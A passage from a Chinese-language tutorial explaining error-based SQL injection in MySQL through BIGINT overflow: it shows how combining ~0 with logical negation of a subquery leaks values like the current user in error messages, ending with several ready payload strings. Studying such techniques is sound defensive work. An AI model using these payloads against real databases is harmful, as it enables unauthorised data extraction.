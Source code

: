 如果我们对0按位取反，会发生什么呢？显而易见，会返回一个最大的无符号BIGINT类型的值。  

    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)  
    
所以，如果我们对~0进行加减运算，也会导致BIGINT溢出错误。  

    mysql> select 1-~0;
    ERROR 1690 (22003): BIGINT value is out of range in '(1 - ~(0))'
    mysql> select 1+~0;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(1 + ~(0))'    
    
##注入  
我想利用子查询造成BIGINT溢出来获取数据。因为执行成功的查询语句会返回0，所以对于任何成功查询进行逻辑非操作会返回1。举例来说，如果我们对类似(select*from(select user())x)这样的查询进行逻辑非的话，就会这样：  

    mysql> select (select*from(select user())x);
    +-------------------------------+
    | (select*from(select user())x) |
    +-------------------------------+
    | root@localhost                |
    +-------------------------------+
    1 row in set (0.00 sec)
    # Applying logical negation
    mysql> select !(select*from(select user())x);
    +--------------------------------+
    | !(select*from(select user())x) |
    +--------------------------------+
    | 1                              |
    +--------------------------------+
    1 row in set (0.00 sec)
    
Yeah, perfect! 所以只要我们能够将按位取反和逻辑非运算进行组合就能进行基于错误信息的注入。  

    mysql> select ~0+!(select*from(select user())x);
    ERROR 1690 (22003): BIGINT value is out of range in '(~(0) + (not((select 'root@localhost' from
    dual))))'  
    
我们先不使用加法，因为”+“在浏览器解析时会被转换为空白符(可以使用%2b来代替+)。相反我们来使用减法。有不同的注入方法可以达到相同的目的。最终的查询语句如下所：  

    !(select*from(select user())x)-~0
    (select(!x-~0)from(select(select user())x)a)
    (select!x-~0.from(select(select user())x)a)  
    
举个栗子，我们可以像这样在查询语句中进行注入。  
